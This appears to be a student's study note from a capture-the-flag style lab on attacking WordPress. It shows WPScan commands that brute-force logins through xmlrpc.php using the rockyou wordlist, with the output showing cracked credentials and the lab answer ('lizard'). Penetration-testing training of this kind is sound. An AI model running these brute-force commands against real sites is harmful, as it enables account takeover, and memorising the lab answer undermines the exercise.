 ```yaml
---
sticker: emoji//1f43c
---
```

## WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: `admin`, `roger`, and `david`. The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.

#### WPScan - XMLRPC


```shell-session
smoothment@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

# Question
---

![](../images/Pasted%20image%2020250220134229.png)

Let's use this WPScan command:

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://IP:PORT
```

We get this:

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard                                                                             
Trying roger / castro Time: 00:00:38 <                        > (1900 / 14346292)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard

```


Answer is:

```
lizard
```